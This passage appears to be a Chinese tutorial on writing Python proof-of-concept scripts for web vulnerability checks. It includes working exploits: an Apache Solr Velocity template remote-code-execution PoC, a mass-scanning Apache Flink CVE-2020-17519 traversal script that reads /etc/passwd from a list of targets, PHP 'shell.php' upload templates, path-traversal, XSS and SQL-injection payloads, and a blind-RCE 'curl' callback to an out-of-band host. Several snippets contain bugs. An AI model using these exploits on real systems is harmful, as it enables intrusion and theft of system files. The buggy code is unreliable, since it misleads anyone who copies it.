{"status":200,"data":"root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin..."}
​
// 情况四：
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
```

如果忽略上述的情况，只在代码中这样检测`if "root:x:0:0" in req.text:`，也会遇到一种网站，在这种网站的注释内容中，无所不有，类似这样：



这种网站，使用[FOFA](https://classic.fofa.so)语句`body="root:x:0:0"`就可以搜索到很多了。所以此时针对三种情况，我们可以适当引用re库或json库

```python
# 情况二：
import re
htmls = re.search(r"^root:x:0:0", req.text)
if htmls and req.status_code == 200:
    return True
# 情况一：
if "<textarea>root:x:0:0:root" in req.text and req.status_code == 200:
    return True
# 情况三：
if '{"status":200,"data":"root:x:0:0:root' in req.text and req.status_code == 200:
    return True
# 情况三：
import json
html = json.loads(req.text)
if html['status'] == 200 and "root:x:0:0" in  html['data'] and req.status_code == 200:
    return True
# 情况四：(保险起见，可以引用re库，类似情况二)
import re
htmls = re.search(r"^root:x:0:0", req.text)
if "<html>" not in req.text and htmls and req.status_code == 200:
    return True
```

情况四中，代码表示： 当响应体中没有`<html>`标签，且响应体开头就是root:等内容，且响应码为200时，返回True，也就是漏洞存在（这只是示例）

对于没有回显的命令执行呢？

对于没有回显的命令执行，可以通过`curl http://反连平台IP`来检测：(可使用DNSLOG代替或自己编写反连平台，后续会添加到文档中)

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
​

path = "/a.php?cmd=curl%20{ssrfUrl}"
url = target + path
req = requests.get(url, headers=headers, timeout=10,verify=False)
if checkSsrf(ssrfUrl) and req.status_code = 200:
    return Ture
```

在上述代码中，会访问`http://IP:PORT/random/随机数`，然后去Info中查询随机数的MD5值，也就是访问`http://IP:PORT/info`。如果Info中有所设置随机数的MD5信息，那么漏洞存在

### 文件读取

在有回显的命令执行中，我们看到了会去查看类似于passwd这样的文件，那么如果是文件读取呢？

对于POST提交的数据或参数中传递的数据，可以原样粘贴到请求数据中，如：

```python
data = "../../../../etc/passwd"
url = "http://IP:PORT/a.php?a=../../../etc/passwd"
```

但由于requests库在引用时，如果是GET方法的请求包，则会将在路径中的`./../../`吞掉，当直接将`../../../../etc/passwd`写在URL中，很可能访问的实际上是`http://IP:PORT/etc/passwd`,所以此时需要进行URL编码，即将`/`编码为`%2F`，此时代码应该为：

```python
url = "http://IP:PORT/..%2F..%2F..%2F..%2F..%2F..%2Fetc/passwd"
```

若读取文件为**日志文件**，则需要引用`time`库。

常见的日志文件名为`21_08_05.log`等，为当天的日期与后缀名，此时我们可将代码写为：

```python
import time
logfile = time.strftime('%y_%m_%d.log', time.localtime(time.time()))
```

**urllib2 说明**

在尝试复现jetty的漏洞时，URL当中会出现类似`/%2e/WEB-INF/web.xml`的字段在URL中，而`requests`库在发送请求的时候，会自动对URL编码后的字符串进行解码，那么就会导致发送的请求与预设的请求并不相同，此时，就可以使用`urllib2`库，去实现原封不动的对设定好的URL发送请求

实现代码示例如下：

```python
import urllib2
​
url = "http://x.x.x.x:80" + "/%2e/WEB-INF/web.xml"
req = urllib2.Request(url, headers=headers)
resp = (urllib2.urlopen(req)).read()
```

简化一下后，是这样的：

```python
resp = (urllib2.urlopen(urllib2.Request(url, headers=headers)))
text = resp.read()
codes = resp.code
```

### 偶遇302

在burpsuite的repeater中复现漏洞时，假如是弱口令漏洞，发现响应码是302，具体示一下例如下：

```bash
POST /login.php
Host:xxx
User-Agent:XXX
Content-Type: application/x-www-form-urlencoded
​
# 情况一：普通传参，正确 
name=admin&pass=admin
# 情况二：分段传参，正确 
-----------------------------215853662222818001893421125431
Content-Disposition: form-data; name="name"
​
admin
-----------------------------215853662222818001893421125431
Content-Disposition: form-data; name="pass"
​
admin
-----------------------------215853662222818001893421125431
# 情况三：json传参
{"name":"admin","pass":"admin"}
​
# 返回包
HTTP 302 OK
location: /home.php
// 如果错误：
// location: /login.php?error=fail
​
# 类似这样：
# <script>location="/home.php"</script>
```

针对上述情况，可了解一下requests库中的`allow_redirects`字段，默认为True，也就是允许跳转，若设置为False，也就是不跳转，此时打印请求的响应头，即为302或者301等

在脚本中，可以这样写：

```python
import requests
# 普通传参
data = "name=admin&pass=admin"
req = requests.post(url, data=data, allow_redirects=False)
if req.status_code == 302 and "home.php" in req.headers['location']: xxx
# 分段传参：
data = {
    'name': (None, 'admin'),
    'pass': (None, 'admin'),}
req = requests.post(url, files=data, allow_redirects=False)
if req.status_code == 302 and "home.php" in req.headers['location']: xxx
# json传参：与普通传参类似
data = '{"name":"admin","pass":"admin"}'
req = requests.post(url, data=data, allow_redirects=False)
if req.status_code == 302 and "home.php" in req.headers['location']: xxx
```

### 请求中特定值

**HTML页面：**

，漏洞点的请求往往会有类似于`__hash__`之类对身份进行校验的参数，如下：

```bash
delid%5B%5D=2&__hash__=2a5c100c47c88b88cd7902365fdc7af3_222cykIHPWwcAF1Kk3QJS6PjnlxHRo/Z5laYL/2aveKzdetFpmjOVw
```

此时，若在burp中抓到包并再次发包的时候，由于hash不是最新的值，而会导致请求失败。此时，寻找hash是在哪生成的就成了重要的任务

**注意**：此时可尝试访问漏洞页面的上一个页面，来寻找响应体中是否包含着hash值，如图：


用在漏洞复现步骤上，大致如下：

&#x20;1、发送请求，获取响应包 \
2、提取响应包中的hash值 \
3、将hash值放入下一请求中使用，如放入漏洞请求对应的请求

在代码体现上，也有两种方式：&#x20;

1、通过正则匹配 \
2、通过beautifulsoup库进行提取

本文档中主要使用第二种方式，相关代码如下：

```python
from bs4 import BeautifulSoup

# 设请求为  req , 需要获取的值为__hash__

hash_ = (BeautifulSoup(req.text, 'html.parser')).find("meta",attrs={'name':'6__hash__'}).get('content')
```

**JOSN页面**：

当返回的数据是一串json字符串时，除了使用正则的方式，还可以使用什么方式取值呢？假设json字符串如下：

```json
{"file":"upload\/20210202\/0823.php","id":"8","phone":"18833445566","passwd":"123456"}
```

取其中的file字段，可使用代码与运行结果如下：

```python
import json
data = '{"file":"upload\/20210202\/0823.php","id":"8","phone":"18833445566","passwd":"123456"}'
print (json.loads(data))['file']
>> upload/20210202/0823.php
```

还有一种情况，如果 json 字段中含有**列表**，又该怎么办呢？

```
{"data":"123456", "url":"http://127.0.0.1", "path":[{"one":"111","two":"222","three":"333"}]}
```

此时，可以在 python 中引入 `json` 库，并且将代码这样写，就会得到想要的结果：

```python
import json
text = '{"data":"123456", "url":"http://127.0.0.1", "path":[{"one":"111","two":"222","three":"333"}]}'
text = (json.loads(text)['path'])[0]['one']
print text

# 结果为： 111
```

####

### 简化请求数据

在复现部分漏洞时，若请求出现如下情况，一般人可能会将POST的数据全部添加到代码中，不仅增加了代码体积，也使得脚本友好性大大下降，可能会对目标服务器做出很大的修改

```
POST /main.php HTTP/1.1​a=浙江温州江南皮革厂&b=倒闭啦&c=该工具提供测试需求管理、测试用例管理和测试数据统计等功能。&d=...&e=<script>alert(1)</script>&submit=yes
```

如上请求，若对方的厂商是别的地区的，那么就会连网站的一些基本信息也被修改，那么当遇到这种情况，最好将无关紧要的参数逐一删除并尝试发送请求，直至请求最简化再进行发送，并将最简化的请求片段贴入代码中,如下：

```
POST /main.php HTTP/1.1​

e=<script>alert(1)</script>&submit=yes

```

### 数据包呢

```bash
# 一般情况下，数据包的格式是这样的：
a=123&b=456
# 对应的python语句是这样的
data = "a=123&b=456"

# 那么json呢？
{"a":"123","b":"456"}
data = '{"a":"123","b":"456"}'
# 如上，若里面是双引号，外面可用单引号括住。若里面是单引号，外面可用双引号

# 分段传输的例子上面已经有了，这里懒得写......^_^

# 下面来个复杂的
{"query":"query queryAlarms($keyword: String, $scope: Scope, $duration:Duration!, $paging: Pagination!) {\\n    getAlarm(keyword: $keyword, scope: $scope, duration: $duration, paging: $paging) {\\n      items: msgs {\\n        key: id\\n        message\\n        startTime\\n        scope\\n      }\\n      total\\n    }}","variables":{"duration":{"start":"2020-10-15 1327","end":"2020-10-15 1342","step":"MINUTE"},"paging":{"pageNum":1,"pageSize":20,"needTotal":true},"keyword":"union select database()#\'"}}
# 你也看到了，里面单双引号都挺多，转义也挺多，好像还挺麻烦的，这是可以用data = ''' '''
data = '''{"query":"query queryAlarms($keyword: String, $scope: Scope, $duration:Duration!, $paging: Pagination!) {\\n    getAlarm(keyword: $keyword, scope: $scope, duration: $duration, paging: $paging) {\\n      items: msgs {\\n        key: id\\n        message\\n        startTime\\n        scope\\n      }\\n      total\\n    }}","variables":{"duration":{"start":"2020-10-15 1327","end":"2020-10-15 1342","step":"MINUTE"},"paging":{"pageNum":1,"pageSize":20,"needTotal":true},"keyword":"union select database()#\'"}}'''
```

* 小知识：

> Python 中三引号可以将复杂的字符串进行赋值。 Python 三引号允许一个字符串跨多行，字符串中可以包含换行符、制表符以及其他特殊字符。

#### 来一个示例看看

```python
# -*- coding: utf-8 -*-
​
import requests, random, hashlib, json, time, re, base64, zipfile, os, urllib2, socket, telnetlib
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
from bs4 import BeautifulSoup

# FROM:
# FOFA：
# VERSION:
#
​
def up_zip():
    myzip = zipfile.ZipFile('{}.zip'.format(yuju), mode='a', 
                            compression=zipfile.ZIP_DEFLATED)
    myzip.writestr("Yxuan.php", "<?php echo md5({});phpinfo();?>".format(yuju))
    myzip.close()
    zip_data = open('{}.zip'.format(yuju))
    return zip_data
    
def verify(target):
    # 检测SQL注入以及XSS，文件写入等，可使用随机数
    yuju = str(random.randint(0, 999999))
    mdfive = hashlib.md5(yuju).hexdigest()
    path = ""
    url = target + path
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
        # "Cookie":'cookie',
        # "": "",
        # "": "",
        # "": "",
        "Content-Type": "application/x-www-form-urlencoded",
        }
    data = ""
    # zip_data = open('{}.zip'.format(yuju))
    data = up_zip()
    # 文件上传时使用，或传递特殊形式参数使用
    file = {
        'name': ('filename', u'文件内容', u'文件自定义Content-Type'),
        'file[]': ('shell.php', data, 'application/octet-stream'),
        'zipfile': ('{}.zip'.format(yuju), zip_data),
        'name2': (None, 'huan'),
        None: ('haha', 'ni'),
        None: ('xixi', 'ya'),
​
        }
​
    try:
       req = requests.post(url, headers=headers, data=data, files=file, timeout=10, verify=False, allow_redirects=False)
       
       zip_data.close()
       os.remove('{}.zip'.format(yuju))
       
       # 调试语句
       print req.status_code
       print req.headers
       print req.text
       exit(0)
       if '' in req.text and '' in req.headers[''] and req.status_code == 200:
           print "success"
    except Exception, e:
        print str(e)
    return self.result
​
​
verify("")
# sqli  :  mdfive = hashlib.md5(yuju).hexdigest()
# xss      <script>alert(yuju)</script>
# time_sqli: import time; now = time.time() sendtime = time.time()-now
# proxy={"http": "http://127.0.0.1:8081","https": "https://127.0.0.1:8081"}
```

示例可作为模板使用，会节约下来很多时间

### 示例答疑

* 这个示例有什么用？

> 这个示例首先是用来节约时间的，如果是GET发包，则可以直接将示例中的data,file等字段删掉，并将`requests.post`改为`requests.get`即可

* 最后，写完脚本后**记得删掉没必要的部分**，**记得删掉没必要的部分**，**记得删掉没必要的部分**！！！


POC编写的相关内容如下：



代码如下

```python
#coding:utf-8
#https://twitter.com/jas502n/status/1193869996717297664
import urllib2
import ssl

class Pocscan(object):
	def __init__(self, target):
		self.result = {
			"status":False,
			"target":target,
		}
	def verify(self):
		url = self.result['target'] + '/overview'
		headers = {
			"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
		}
		# ssl._create_default_https_context = ssl._create_unverified_context
		try:
			req = urllib2.Request(url,headers=headers)
			rsp = urllib2.urlopen(req,timeout=8)
			text = rsp.read()
			if '"taskmanagers"' in text and 'flink-version' in text:
				self.result['status'] = True
				self.result['target'] = url
				self.result['method'] = 'GET'
				self.result['response'] = 'flink-version'
		except Exception as e:
			self.result['info'] = str(e)
		return self.result
```



代码如下

```python
#coding:utf-8
#https://www.anquanke.com/post/id/190039
import urllib2
import ssl
import re

class Pocscan(object):
	def __init__(self, target):
		self.result = {
			"status":False,
			"target":target,
		}
	def verify(self):
		headers = {
			"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
		}
		ssl._create_default_https_context = ssl._create_unverified_context
		try:
			url_core = self.result['target'].rstrip('/') + '/solr/admin/cores?indexInfo=false&wt=json'
			req = urllib2.Request(url_core,headers=headers)
			rsp = urllib2.urlopen(req,timeout=8)
			text = rsp.read()
			res = re.search(r'"instanceDir":"(.*?)",',text)
			if res == None:
				return self.result
			else:
				core = res.group(1).split('\\')[-1]
				url_config = self.result['target'].rstrip('/') + '/solr/%s/config'%(core)
				headers1 = {
					"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
					"Content-Type": "application/json"
				}
				data = '''
				{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}'''
				req = urllib2.Request(url_config,headers=headers1,data=data)
				rsp = urllib2.urlopen(req,timeout=8)
				url = self.result['target'].rstrip('/') + '/solr/{0}/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27netstat%20-an%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'.format(core)
				req = urllib2.Request(url,headers=headers)
				rsp = urllib2.urlopen(req,timeout=8)
				text = rsp.read()
				if 'LISTEN' in text and 'ESTABLISHED' in text:
					self.result['status'] = True
		except Exception as e:
			self.result['info'] = str(e)
		return self.result
```



相关代码如下：

```python
#!/usr/bin/env python
# coding:utf-8
# author:Yxuan
#affected versions are Apache Flink 1.11.0-1.11.2

import requests,sys,colorama
from colorama import *
init(autoreset=True)


banner='''\033[1;33;40m
  _______      ________    ___   ___ ___   ___        __ ______ _____ __  ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ |____  | ____/_ |/ _ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| |   / /| |__  | | (_) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |  / / |___ \ | |\__, |
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | | / /   ___) || |  / / 
 \_____|   \/   |______|  |____|\___/____|\___/       |_|/_/   |____/ |_| /_/                                                                                                                                                 
'''


def verify():
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
	payload= '/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd' 
	poc=urls+payload
	try:
		requests.packages.urllib3.disable_warnings()#解决InsecureRequestWarning警告
		response=requests.get(poc,headers=headers,timeout=15,verify=False)
		if response.status_code==200 and "root:x" in response.content:
			print(u'\033[1;31;40m[+]{} is apache flink directory traversal vulnerability'.format(urls))
			print(response.content)
			#将漏洞地址输出在Vul.txt中
			f=open('./vul.txt','a')
			f.write(urls)
			f.write('\n')
		else:
			print('\033[1;32;40m[-]{} None'.format(urls))
	except:
		print('{} request timeout'.format(urls))


if __name__ == '__main__':
	print (banner)
	if len(sys.argv)!=2:
		print('Example:python CVE-2020-17519.py urls.txt')
	else:
		file = open(sys.argv[1])
		for url in file.readlines():
			urls=url.strip()
			if urls[-1]=='/':
				urls=urls[:-1]
			verify()
		print ('Check Over')
```



#### 简化请求数据

在复现部分漏洞时，若请求出现如下情况，一般人可能会将POST的数据全部添加到代码中，不仅增加了代码体积，也使得脚本友好性大大下降，可能会对目标服务器做出很大的修改

```
POST /main.php HTTP/1.1​a=浙江温州江南皮革厂&b=倒闭啦&c=该工具提供测试需求管理、测试用例管理和测试数据统计等功能。&d=...&e=<script>alert(1)</script>&submit=yes
```

如上请求，若对方的厂商是别的地区的，那么就会连网站的一些基本信息也被修改，那么当遇到这种情况，最好将无关紧要的参数逐一删除并尝试发送请求，直至请求最简化再进行发送，并将最简化的请求片段贴入代码中,如下：

```
POST /main.php HTTP/1.1​e=<script>alert(1)</script>&submit=yes
```

\


